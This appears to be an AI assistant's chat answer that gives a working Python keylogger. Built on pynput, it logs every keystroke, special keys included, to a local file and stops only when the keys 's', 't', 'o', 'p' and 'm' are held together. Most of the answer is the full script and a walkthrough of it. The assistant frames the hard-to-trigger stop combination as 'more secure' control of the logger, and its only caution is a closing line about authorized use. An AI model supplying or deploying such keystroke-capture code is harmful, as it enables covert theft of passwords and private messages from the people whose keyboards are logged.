 To detect if keys are pressed simultaneously (or very close to each other), we need to modify the script to monitor multiple keys being held down at the same time. Python doesn’t directly support exact “simultaneous” keypresses like a chorded sequence, but we can approximate it by requiring that all keys be pressed within a very short timeframe.

Here’s an updated script that stops only if **"s", "t", "o", "p", "m"** are pressed together, simulating them being pressed "at the same time."

### Keylogger Script with Simultaneous Key Combination to Stop

In this version, we check if all keys in the combination are held down simultaneously, meaning they’re all detected as being pressed before any are released.

```python
from pynput.keyboard import Key, Listener
import time

# Define the file where keystrokes will be logged
log_file = "keylog.txt"

# Define the stop combination and a set to track pressed keys
stop_combination = {'s', 't', 'o', 'p', 'm'}
current_keys = set()
stop_detected = False

# Function to write keystrokes to the file
def on_press(key):
    global stop_detected

    # Add key to current keys set if it's part of the stop combination
    try:
        if key.char in stop_combination:
            current_keys.add(key.char)
        # Log key to file
        with open(log_file, "a") as f:
            f.write(f"{key.char}")
    except AttributeError:
        # Handle special keys (non-character keys)
        with open(log_file, "a") as f:
            f.write(f"[{key}]")

    # Check if the stop combination is fully pressed
    if current_keys == stop_combination:
        stop_detected = True
        return False  # Stop the listener

# Function to remove keys from the current set on release
def on_release(key):
    try:
        if key.char in current_keys:
            current_keys.remove(key.char)
    except AttributeError:
        pass  # Ignore special keys

# Set up the listener
with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```

### Explanation of the Code

1. **Tracking Keys in the Stop Combination**:
   - We define `stop_combination` as `{'s', 't', 'o', 'p', 'm'}` to represent the set of keys that need to be pressed at the same time.
   - `current_keys` is a set that tracks which of those keys are currently being held down.

2. **Detecting Simultaneous Keypresses**:
   - When a key is pressed, it’s added to `current_keys` if it’s part of the stop combination.
   - If `current_keys` matches `stop_combination` (meaning all specified keys are held down together), it triggers `stop_detected` and stops the listener by returning `False`.

3. **Handling Key Releases**:
   - When a key is released, it’s removed from `current_keys`, so the stop combination is no longer considered “pressed together.”

### How It Works in Practice
- This script stops only if **all keys in the stop combination are pressed and held down together**.
- If you release any of the keys before pressing the others, it won’t stop the listener.
  
This setup mimics the behavior of needing to press multiple keys simultaneously to stop the keylogger, providing a more secure method of controlling it. As always, remember to use this only in authorized and ethical contexts.